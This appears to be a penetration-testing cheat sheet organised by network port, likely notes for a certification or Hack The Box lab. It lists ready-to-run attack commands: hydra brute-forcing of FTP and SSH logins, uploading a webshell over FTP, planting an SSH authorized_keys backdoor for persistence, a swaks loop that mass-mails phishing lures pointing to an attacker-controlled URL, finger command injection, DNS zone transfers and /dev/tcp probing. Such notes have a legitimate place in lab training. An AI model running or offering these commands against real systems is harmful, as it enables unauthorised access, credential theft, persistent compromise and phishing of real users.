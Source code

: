 ### Basic Fingerprint / Banner Grabbing:
- `nc -v 192.168.1.1 25`
- `telnet 192.168.1.1 25`
- `bash -c "exec 3<>/dev/tcp/192.168.11.13/22; echo EOF>&3; cat<&3"`
- Test Connectivity:  `echo '' > /dev/tcp/192.168.11.13/22`

## 21 - FTP:
- Try anonymous:  `ftp <ip>; USER anonymous; PASS anonymous`
- Brute Force:  `hydra -V -f -L <USERS_LIST> -P <PASSWORDS_LIST> ftp://<IP> -u -vV`
- Download file (binary):  `PASSIVE; BINARY; get <file>`
    - Recursively:  `wget -m ftp://anonymous:anonymous@10.10.10.98`
- Upload file (binary) (ex. webshell to access in browser):  `PASSIVE; BINARY; put <file>`
## 22 - SSH:
- Brute Force:  `hydra -V -f -L <USERS_LIST> -P <PASSWORDS_LIST> ssh://<IP> -u -vV`
- Add Backdoor (post-exploitation):
    - Attack Box:  `ssh-keygen -f <FILENAME>; chmod 600 <FILENAME>; cat <FILENAME>.pub` (copy contents)
    - Victim Box:  create <FILENAME>.pub, then: `echo <FILENAME>.pub >> <PATH>/.ssh/authorized_keys`
    - Connect:  `ssh -i <FILENAME> <USER>@<IP>`
- CVE2008-0166:  All SSL and SSH keys generated on Debian-based systems (Ubuntu, Kubuntu, etc) between September 2006 and May 13th, 2008 may be affected.
- Fixing Key Exchange/Type Errors:  `ssh -oKexAlgorithms=+diffie-hellman-group-exchange-sha1 -oHostKeyAlgorithms=+ssh-rsa user@ip`
## 25 - SMTP:
- Verify a user/email:  nc -nv 10.11.1.217 25;  VRFY root
- If you just have email addresses (maybe from cewl) and smtp port is open, try sending emails and getting response like in HTB sneakymailer (phishing, set up listener on 80):
        `while read mail; do swaks –to $mail –from it@sneakymailer.htb –header “Subject: Credentials / Errors” –body “goto http://10.10.14.4/” –server 10.10.10.197; done < mails.txt`
- For logging in and sending an email via 25, see pwk 10.11.1.229 example
- Check port 4555 remote admin tool; root/root default; change user password, then login on 110 and check
## 53 - DNS:
- IP Lookup:  `dig a domain-name-here.com @nameserver`
- MX Record Lookup:  `dig mx domain-name-here.com @nameserver`
- Recon:  `dnsenum <DOMAIN>  \\  dnsrecon -d <DOMAIN>`
- Zone Transfer:  `dnsrecon -d <DOMAIN> -a  \\  dig axfr blah.com @ns1.blah.com  \\  host -l megacorpone.com ns1.megacorpone.com  \\  Windows:  nslookup -> set type=any -> ls -d blah.com`
## 79 - Finger:
- User Enumeration:  finger @<IP>  \\  finger <USER>@<IP>
    - Script:  https://pentestmonkey.net/tools/user-enumeration/finger-user-enum with /usr/share/metasploit-framework/data/wordlists/unix_users.txt
- Command Execution:  finger "|/bin/id@<IP>"  \\  finger "|/bin/ls -a /<IP>"
## 80/443 - HTTP/HTTPS:
- **Scanners:**
    - General:  `nikto -h <IP>`
        - Edit /etc/nikto.conf to:  `USERAGENT=Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.0.0 Safari/537.36`
    - Directories:
        - Wordlists:
            - https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/directory-list-2.3-small.txt
            - https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/directory-list-2.3-medium.txt
            - https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/directory-list-2.3-big.txt
        - `gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.11.1.117 -k -x txt,php -t 50`